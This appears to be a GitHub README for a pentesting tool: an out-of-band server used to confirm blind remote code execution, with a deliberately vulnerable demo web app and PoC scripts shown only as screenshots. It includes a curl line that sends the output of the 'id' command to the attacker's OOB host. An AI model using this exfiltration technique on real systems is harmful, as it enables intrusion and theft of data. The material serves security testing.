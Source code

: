 # OOB (Out Of Band) Server for blind RCE vulnerability

* reference:
  https://notsosecure.com/out-band-exploitation-oob-cheatsheet

## How to use?
## server.py
1. change HOST and PORT to your own OOB server's IP address and listen port.
2. start up the OOB server:
```bash
shell$ python3 server.py
```

### Simple Validation:
  
when client to access:
```
http://oob_server:port/geturl
```
the OOB server will generate and response a random URL like:
```
http://oob_server:port/iF9d2k
```
when client to access this random URL, it will create a txt file and logging client's IP.\
and client can access `random_url?m=1` to validate
```
http://oob_server:port/iF9d2k?m=1
```

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/c1880071-2ccb-4d70-ad39-fa649ec9cb34)

### Record Execution Result:
  
when pentester wants to gain the executed result of OS command, can send:
```
curl http://oob_server:port/`id`
```
and then to access following URL to get result:
```
http://oob_server:port/checklog
```
![image](https://github.com/NinjaGPT/oob_server/assets/4035112/14d1c6a4-bfbb-4ef3-b10d-afa074a9ea6a)

## victim.py
a demo of vulnerable Web application.
```
http://victim.com:port/vuln
POST
cmd={command}
```
<img width="633" alt="image" src="https://github.com/NinjaGPT/oob_server/assets/4035112/b1cf3229-c818-4dec-bacc-a948a0bec62b">

## poc.py
Simple Validation POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/6f5f7cee-b56d-4b93-9ade-dcb2d5c481f6)


## response_poc.py
Gain Execution Result POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/245b8e28-1587-4821-b11b-4efed3d1a78f)
